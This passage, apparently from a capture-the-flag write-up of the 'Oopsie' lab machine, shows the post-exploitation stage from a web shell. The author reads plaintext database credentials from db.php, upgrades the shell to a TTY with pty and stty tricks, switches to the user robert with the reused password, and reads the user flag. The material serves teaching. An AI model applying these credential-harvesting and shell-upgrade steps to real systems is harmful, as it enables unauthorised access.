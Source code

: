 Now we are in, let's see where we are and what is here:
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ pwd
pwd
/var/www/html/cdn-cgi/login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

We log in as our friend Bob to actually run the executable:
```bash
$ su robert
su: must be run from a terminal
```

Okay, well we can do some tricks to the web shell to make it a little nicer:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Note: since completing this box, I have found another way of doing this:
```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```

Now that we have a terminal, we can login as Robert, using the above credentials:
```bash
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
robert@oopsie:/$ cd home
cd home
robert@oopsie:/home$ ls
ls
robert
robert@oopsie:/home$ cd robert
cd robert
robert@oopsie:~$ ls
ls
cat  LinEnum.sh  user.txt
robert@oopsie:~$ cat user.txt
cat user.txt
f2c7************************7981
```
